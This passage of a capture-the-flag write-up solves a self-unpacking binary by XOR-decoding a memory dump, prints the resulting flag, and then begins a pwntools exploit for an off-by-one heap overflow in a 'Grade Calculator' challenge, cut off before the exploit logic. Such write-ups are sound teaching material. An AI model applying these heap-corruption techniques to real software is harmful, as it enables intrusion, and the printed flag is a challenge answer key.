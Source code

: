 - the flag is read onto the top of the stack
- the flag is 0x40 bytes long
- the function at 0x70 is called, then the function at 0xa0 must return 0

The first two points here are not interesting. The first function at 0x70 XORs the memory starting at 0x4000 up to 0x4140 eight bytes at a time with the QWORD at 0x4140. It seems my dump didn't include this so Ghidra showed an invalid reference. No worries, just grab it out the debugger again.

```
gef➤  x/s 0x00007ffff7fc9000
0x7ffff7fc9000: "RnV&Bba_TG^cNk<at2E2-fpAe{{n3H-s~*xK3]h-NlXIorf;g^Y_cB(gu\",}Tn{vq!po`K@4~J{)c9i=?k3fZ,1+Ib_n.GgFg{0gK_f;ngblEY,1mRIjn?F89_8%oudB]),1w14%d+zfxnS{dDtc?<w_lVkD3Z`usvzN+J3o/_lnqK9@_#~C/s{=P64KW(-v3z=&3jren_x*$04r9njn0S,Py/%n#_98|0s^;~(pw#fW4p-B)c=*sG3MX8(_a\\&ms-zS:mBN~]hi6zw_;(w5m5LdAV0mYv47\"]xEUibHUtNRuYA4hya\"[+Ke&fD2}?^N$*nactf!"
```

The function at 0xa0 is a bit more interesting. Starting at 0x4001, it XORs each character of our input with the byte at the current address and ORs it with the eventual return value (we want it to be 0 at each step so the return value is 0). Then, it adds 5 (not 1) to the address.

Sure enough, cutting off the first letter and taking every fifth character gives the flag.

```
>>> print("RnV&Bba_TG^cNk<at2E2-fpAe{{n3H-s~*xK3]h-NlXIorf;g^Y_cB(gu\",}Tn{vq!po`K@4~J{)c9i=?k3fZ,1+Ib_n.GgFg{0gK_f;ngblEY,1mRIjn?F89_8%oudB]),1w14%d+zfxnS{dDtc?<w_lVkD3Z`usvzN+J3o/_lnqK9@_#~C/s{=P64KW(-v3z=&3jren_x*$04r9njn0S,Py/%n#_98|0s^;~(pw#fW4p-B)c=*sG3MX8(_a\\&ms-zS:mBN~]hi6zw_;(w5m5LdAV0mYv47\"]xEUibHUtNRuYA4hya\"[+Ke&fD2}?^N$*nactf!"[1::5])
nactf{s3lf_unp4ck1ng_b1n_d1dnt_3v3n_s4v3_4ny_sp4c3_smh_mV4EUYae}*f
```

# Grade Calculator
Off-by-one in grade entering allows overwriting one byte past the end of the chunk, which enables expanding a chunk to overlap with another.
```python
from pwn import *

exe = ELF("./gcalc")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe

host = args.HOST or "challenges.ctfd.io"
port = args.PORT or 30253

def local():
  return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})

def conn():
  if args.LOCAL:
    return local()
  else:
    return remote(host, port)

gdbscript = f'''
file {exe.path}
 '''

r = conn()

# good luck pwning :)

CATEGORY = 0

def add(weight, grades):
  global CATEGORY
```